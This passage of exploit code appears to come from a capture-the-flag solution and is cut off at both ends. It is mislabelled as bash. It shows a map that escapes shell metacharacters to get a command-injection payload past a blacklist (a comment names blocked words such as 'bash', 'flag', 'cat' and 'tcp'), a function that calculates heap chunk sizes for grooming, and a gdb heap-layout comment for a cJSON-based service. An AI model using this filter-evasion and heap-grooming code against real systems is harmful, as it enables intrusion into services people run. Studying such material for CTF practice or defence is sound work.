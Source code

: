 ```bash

    b";": b"\\u003b",
    b"$": b"\\u0024",
    b"|": b"\\u007c",
    b"`": b"\\u0060",
    b"&": b"\\u0026",
    b"#": b"\\u0023",
    b"(": b"\\u0028",
    b")": b"\\u0029",

    b"\x00": b"\\u0000",
    # bash, flag, cat, tcp
}



def get_raw_payload(payload):
    # breakpoint()
    raw_payload = b""
    for i in payload:
        c = chr(i).encode("latin")
        if c in blacklist_dict:
            raw_payload += blacklist_dict[c]

        else:
            raw_payload += c

    return raw_payload

def calc_array_pair_cnt(required_size, message_len):
    align_up_0x10 = lambda x: (x + 0x0f) & ~0xf
    remain_chunk_length = lambda x: (x & 0x0f) // (8 + 1) * 0x10

    string_len = lambda n: 2 * n + message_len # 1,1,
    calc = lambda n: 0x50 * n + align_up_0x10(string_len(n)) + remain_chunk_length(string_len(n))

    for i in range(0, 0x1000):
        size = calc(i)
        if size < required_size:
            continue
        elif size == required_size:
            return (i, 0, 0)
        else:
            # breakpoint()
            return (i - 1, -1, calc(i - 1))
    else:
        raise Exception("required size too big")



def generate_array_payload(required_size, message_len):
    '''
    gdb-peda$ parseheap
    addr      ... size ...
    0x1cf0000 ... 0x?? ...    strlen(http_message) // 
    0x1cf0090 ... 0x50 ...    cJSON_Object root     
    0x1cf00e0 ... 0x50 ...    cJSON_String data string
    0x1cf0130 ... 0x20 ...    strlen("data")
    0x1cf0150 ... 0x60 ...    strlen(data string)
    0x1cf01b0 ... 0x50 ...    cJSON_String  timestamp
    0x1cf0200 ... 0x20 ...    strlen("timestamp")
    0x1cf0220 ... 0x50 ...    cJSON_Array timestamp
    0x1cf0270 ... 0x20 ...    strlen("timestamp")
```